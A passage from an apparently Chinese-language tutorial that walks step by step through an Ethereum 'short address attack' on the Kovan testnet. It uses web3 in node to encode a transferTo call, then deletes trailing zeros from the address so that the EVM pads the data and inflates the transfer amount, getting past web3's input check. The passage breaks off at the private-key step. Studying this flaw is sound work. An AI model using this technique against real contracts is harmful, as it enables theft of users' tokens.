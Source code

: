 ```
solc --abi Test.sol &gt; abi.txt
```



## 0x04 第二次出师(⚠本次所有操作均在命令行中执行)

1、键入 node 进入命令行提示符

2、在项目中引入 web3 并设置 provider（怎么下载 web3 这里不展开说明，有兴趣的可以自己查找，一个很简单的操作）

```
var Web3 = require('web3')
var web3 = new Web3(new Web3.providers.HttpProvider('https://kovan.infura.io/v3/&lt;你自己的infura id&gt;'))
```

3、创建合约实例:

```
var MyContract = new web3.eth.Contract(abi.txt 里面的 abi)
```

4、构造方法 abi,也就是构造我们上面说的交易里面的 inputdata，由于我们是要构造短地址攻击，所以我们的地址是要比正常的地址的位数要少的，为的就是要让 EVM 用零自动补全缺失的地址，但是正常的构造是会失败的，例如下图这样

[![](https://cdn.wutui.pro/article_back_5b9727967a386.png)](https://cdn.wutui.pro/article_back_5b9727967a386.png)

但是，再次声明一下，作为一个搞事情的人，不能轻言放弃！于是我们需要一点特别的方法，一开始的时候我到了这里就以为会有检测就不行了，太天真，其实是 web3 的检测，我们需要一点特别的方法。这个方法分为两步

第一步，先构造正常的 abi，这次使用的地址是 ‘0xdfca6234eb09125632f8f3c71bf8733073b7cd00’

```
var abi = MyContract.methods.transferTo('0xdfca6234eb09125632f8f3c71bf8733073b7cd00','123').encodeABI() //请记住这里我只写了 123，下面有惊喜
```

如图，现在的 abi，也就是 inputdata，是 136 字节的。

[![](https://cdn.wutui.pro/article_back_5b9727d42ebca.png)](https://cdn.wutui.pro/article_back_5b9727d42ebca.png)

第二步：使用一个小技巧，将 abi 里面地址后面的两个零偷偷抹掉，本来是 136 字节的，现在只有 134 字节了，也就是我上面说到的不正常的 inputdata，就是在这个时候构造出来的

[![](https://cdn.wutui.pro/article_back_5b97280a35ed6.png)](https://cdn.wutui.pro/article_back_5b97280a35ed6.png)

以上就是把零抹掉之后的 abi

ok，一切都准备好之后就可以到最激动人心的时刻了

5、在项目中引入 ethereumjs-tx（怎么下载的这里也不详细展开）

```
var Tx = require('ethereumjs-tx')
```

6、导入你的私钥并做一些处理:
